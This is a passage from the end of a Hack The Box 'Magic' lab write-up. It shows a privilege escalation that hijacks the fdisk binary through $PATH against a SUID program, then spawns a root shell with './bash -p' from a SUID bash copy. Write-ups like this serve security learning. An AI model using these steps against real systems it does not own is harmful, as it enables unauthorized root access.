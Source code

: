 Then set the new fdisk file as executable and added the current location to the $PATH

```bash
chmod +x fdisk
export PATH=$(pwd):$PATH
```

Now after running the sysinfo binary again I checked in /tmp

[<img src="../images/htb_magic/suidbash.png"
  style="width: 800px;"/>](../images/htb_magic/suidbash.png)

Now time to get root

```bash
cd /tmp
./bash -p
```

[<img src="../images/htb_magic/root.png"
  style="width: 800px;"/>](../images/htb_magic/root.png)

That was the box, I really enjoyed it as each step was quite logical and didn't really require any guessing like you get in some ctf'y type boxes.  It also covered SQL injection, file upload vulnerabilities, password re-use and relative path hijacking.  Which are all great exploits/exploit paths to understand and utilise. 

Thanks for taking the time to read this and I will be continuing to add more HTB machine writeups in the near future. 

